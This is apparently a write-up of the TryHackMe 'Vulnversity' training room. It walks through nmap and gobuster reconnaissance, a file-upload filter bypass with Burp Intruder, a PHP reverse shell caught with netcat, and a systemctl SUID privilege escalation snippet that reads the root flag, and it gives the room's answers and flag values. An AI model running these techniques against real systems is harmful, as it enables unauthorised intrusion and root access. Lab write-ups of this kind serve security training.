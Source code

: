 <p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Cover.png" alt="Vulnversity Logo">
</p>

# [Vulnversity](https://github.com/Kevinovitz/TryHackMe_Writeups/tree/main/vulnversity)

This guide contains the answer and steps necessary to get to them for the [Vulnversity](https://tryhackme.com/room/vulnversity) room.

## Table of contents

- [Reconnaissance](#reconnaissance)
- [Locating directories using GoBuster](#locating-directories-using-gobuster)
- [Compromise the webserver](#compromise-the-webserver)
- [Privilege Escalation](#privilege-escalation)

## Reconnaissance

In this task we will be using `nmap` to find out more about our target machine. We can get the answers for all these question with the following command:

```cmd
nmap -sV 10.10.70.180
```

![Nmap Scan](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Nmap.png)

2. Scan the box, how many ports are open?
   
   Just count the number of services listed on the scan.
   
   ><details><summary>Click for answer</summary>6</details>
   
3. What version of the squid proxy is running on the machine?

   This information is given through the `-sV` argument.

   ><details><summary>Click for answer</summary>3.5.12</details>

4. How many ports will nmap scan if the flag -p-400 was used?

   Using `nmap --help` we can get more information on the various arguments. 

   ><details><summary>Click for answer</summary>400</details>

5. Using the nmap flag -n what will it not resolve?

   Using `nmap --help` we can get more information on the various arguments. 

   ><details><summary>Click for answer</summary>DNS</details>

6. What is the most likely operating system this machine is running?

   For this we can look at the information on the various services. 

   ><details><summary>Click for answer</summary>Ubuntu</details>

7. What port is the web server running on?

   This can also be found on the scan results. Look for an Apache/http service.

   ><details><summary>Click for answer</summary>3333</details>
   
## Locating directories using GoBuster

In this task we will be using `dirsearch` or ` gobuster` to find any hidden directories on the webserver.

2. What is the directory that has an upload form page?

   For this we can use both `dirsearch` and `gobuster`, the commands are similar and the results as well.
   
   ```cmd
   dirsearch -u http://10.10.70.180:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
   
   gobuster dir -u http://10.10.70.180:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
   ```
   
   ![Dirsearch Results](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Dirsearch.png)
   
   ![Gobuster Results](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Gobuster.png)
   
   After navigating to the results we find here, we can see which directory has an upload form.
   
   ![Website Form](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Form.png)

   ><details><summary>Click for answer</summary>/internal/</details>

## Compromise the webserver

In this task we will exploit the filtering of a file upload form to get a reverse shell.

1. What common file type, which you'd want to upload to exploit the server, is blocked? Try a couple to find out.

   We can download one of the images we found on the other directory with:
   
   ```cmd
   curl http://10.10.70.180:3333/images/loc.png --output loc.png
   ```
   
   Then make a couple copies with different extensions such as: `.php`, `.html`, `.js`, `.jpg` etc. We can upload them to the webserver to find out which ones are blocked.
   
   ![Form Upload](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Upload.png)

   ><details><summary>Click for answer</summary>.php</details>

3. Run this attack, what extension is allowed?

   We open the form again in our browser and enable FoxyProxy to intercept the traffic with BurpSuite. We upload an example file and send the intercepted request to intruder.
   
   ![Burp Proxy](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Burp_Proxy.png)
   
   Go to Intruder and the positions tab. Here we need to clear all and add a position for the extension as followed.
   
   ![Burp Intruder](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Burp_Intruder.png)
   
   Next, in the payload tab we need to add the extension for Burpsuite to try.
   
   ![Burp Payload](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Burp_Payload.png)
   
   Set the attack mode to sniper and start the attack.
   
   ![Burp Results](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Burp_Intruder_Result.png)
   
   We should be seing one of the extensions to have either a different status or length. Unfortunately, for some reason, it couldn't get it to work. After manually trying, I found `.phtml` to be working.

   ><details><summary>Click for answer</summary>.phtml</details>

5. What is the name of the user who manages the webserver?

   To get into the system we can use a `php-reverse-shell`. These can be found in `/usr/share/webshells/`. We just need to edit the file to contain our machines IP address and a port we want to use.
   
   ![Reverse Shell]https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Reverse_Shell_Script.png)
   
   After uploading we start a listener on port 1337 with netcat and navigate to `internal/uploads` to access our shell.
   
   ![Netcat](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Netcat.png)
   
   To find any users on the machine we can either enumerate the home directory or look at the `passwd` file.
   
   ```cmd
   ls -lh /home/
   ```
   
   ![Users](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_User.png)

   ><details><summary>Click for answer</summary>bill</details>

6. What is the user flag?

   We can navigate to bill home folder and look for the flag.
   
   ![Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Flag.png)

   ><details><summary>Click for answer</summary>8bd7992fbe8a6ad22a63361004cfcedb</details>

## Privilege Escalation

In this task we will escalate our priveleges with SUID exploitation.

1. On the system, search for all SUID files. What file stands out?

   We can look for any binaries with their SUID bit set with:
   
   ```cmd
   find / -perm -4000 2>/dev/null
   ```
   
   ![SUID](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_SUID.png)
   
   Checking GTFOBins, we come accross `systemctl` which we can use without `sudo`.
   
   ><details><summary>Click for answer</summary>/bin/systemctl</details>

2. Become root and get the last flag (/root/root.txt)

   Using the commands from GTFOBins we can write a custom code snippet to enter into the shell:
   
   ```cmd
   TF=$(mktemp).service
   echo '[Service]
   Type=oneshot
   ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output.txt"
   [Install]
   WantedBy=multi-user.target' > $TF
   /bin/systemctl link $TF
   /bin/systemctl enable --now $TF
   ```
   
   ![GTFOBins Systemctl](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_GTFOBins.png)
   
   We use the `/tmp/` folder as this is usually always accessible for everyone on the machine.
   
   I didn't have any luck at first, so I tried again after stabalizing our shell on the machine with:
   
   ```cmd
   python -c 'import pty; pty.spawn("/bin/bash")'
   ```
   
   ![Shel Stabalize](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Shell_Stabalize.png)
   
   Trying again did yield a results, but I had to hit `enter` again for the final command to execute. Now we can navigate to the output file and read its contents.
   
   ![Root Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnversity/Vulnversity_Root_Flag.png)

   ><details><summary>Click for answer</summary>a58ff8579f0a9270368d33a9966c7fd5</details>

